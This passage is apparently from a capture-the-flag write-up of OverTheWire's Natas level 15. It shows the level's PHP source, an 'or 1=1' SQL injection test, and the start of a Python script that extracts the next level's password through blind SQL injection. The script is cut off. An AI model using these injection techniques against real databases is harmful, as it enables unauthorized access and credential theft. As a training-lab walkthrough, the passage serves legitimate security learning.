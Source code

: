   }

  $res = mysql_query($query, $link);
  if($res) {
  if(mysql_num_rows($res) > 0) {
    echo "This user exists.<br>";
  } else {
    echo "This user doesn't exist.<br>";
  }
  } else {
    echo "Error in query.<br>";
  }

  mysql_close($link);
} else {
?>

<form action="index.php" method="POST">
Username: <input name="username"><br>
<input type="submit" value="Check existence" />
</form>
<? } ?>
{% endhighlight %}

It looks like another SQL Injection just like the previous level. Let&#8217;s try a basic SQLi statement like before:

`"or 1=1 -- `

<img class="alignnone size-full wp-image-242" src="/assets/img/2019/09/2019-09-13_11h05_51.png" /> 

So it&#8217;s proven to be vulnerable, now we need to exploit it to get the password out. I checked that natas16 is a user, so we need to pull the password out of that record specifically.

The script only shows a few different possible outputs, depending on the state of the result, suppressing any error messages. So this is a Blind SQL Injection and requires more patience to exploit.

Best way that I know of is to validate each character of the password with the output states &#8220;This user exists&#8221; or &#8220;This user doesn&#8217;t exist&#8221;. Since doing this by hand will take forever and a day, a python script is how I chose to do it. Here is my code to get the password:

{% highlight python %}
#!/usr/bin/python3
#
# main execution script for solving natas15 on OverTheWire.org

import requests

# All possible characters
allChars = '0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ'
# Characters used
usedChars = ''
# Final Password